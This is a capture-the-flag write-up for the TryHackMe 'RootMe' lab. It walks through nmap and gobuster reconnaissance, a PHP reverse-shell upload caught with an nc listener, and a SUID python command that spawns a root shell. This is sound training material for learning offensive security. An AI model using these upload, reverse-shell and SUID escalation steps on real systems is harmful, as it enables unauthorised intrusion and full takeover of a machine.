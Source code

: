 <p align="center"><img src="./Cover.png" width="310" ></p>
<h1><p align="center">Simple CTF : </p></h1> <h2><p align="center"> A ctf for beginners, can you root me?</p></h2>
                                                                                                                

### Room Link: [RootMe](https://tryhackme.com/room/rrootme) 

## Recon...
So I began with nmap scan to Find entry points.
```bash 
$ sudo nmap -T4 -sC -sS -A 10.10.210.59 > nmap.out
$ cat nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2021-03-22 11:00 GMT
Nmap scan report for ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)
Host is up (0.00038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:31:87:E1:4C:F5 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.11 seconds
```

As I can see there is a http server running on target. Lets checkout and let dirbuster run in background.
```bash
$ sudo gobuster dir -u http://10.10.231.92/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o dir.out
$ cat dir.out 

http://10.10.231.92/uploads (Status: 301)
http://10.10.231.92/css (Status: 301)
http://10.10.231.92/js (Status: 301)
http://10.10.231.92/panel (Status: 301)
http://10.10.231.92/server-status (Status: 403)

```

## Foot Hold...

Now there are 2 directories that I found intresting and one had a upload form. So I tried to upload php reverse shell script and bypassed with burp. 
While ```nc``` Listening in background.
```bash
$ sudo nc -lvnp 8080 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$whoami
www-data 
```
We have a reverse shell, stabalize it with this one liner ``` python3 -c 'import pty;pty.spawn("/bin/bash")'```.

Now find user.txt flag.
```bash
www-data@rootme:/$ find / -name user.txt -type f 2>/dev/null

/var/www/user.txt

www-data@rootme:/$ cat /var/www/user.txt

THM{****************}
```

## Privlege Escalation...

Lets enumerate the user. I used [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
for it.
```bash 
www-data@rootme:/var/tmp$ ./linpeas.sh
./linpeas.sh
 Starting linpeas. Caching Writable Folders...

                     ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄▄
      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄
  ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄
  ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
  ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
  ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
  ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
  ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
  ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
  ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
  ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
  ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
  ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
  ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
   ▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄
        ▄▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄ 
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
    linpeas v3.0.2 by carlospolop
                                                                                                                             
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.                                                                                               
                                                                                                                             
...
[+] SUID - Check easy privesc, exploits and write perms                                                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                
strings Not Found                                                                                                            
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping6                                              
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping
-rwsr-sr-x 1 root   root            3.5M Aug  4  2020 /usr/bin/python
```
So there is a SUID set for python as root, lets exploit it.Check [GTFOBins](https://gtfobins.github.io/gtfobins/python/).

```bash
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@rootme:/# whoami
root
root@rootme:/# cat /root/root.txt

THM{*******************}
```

Now root flag can be obatined but I wannted to own the root on **RootMe** so I changed the password and rooted the box.
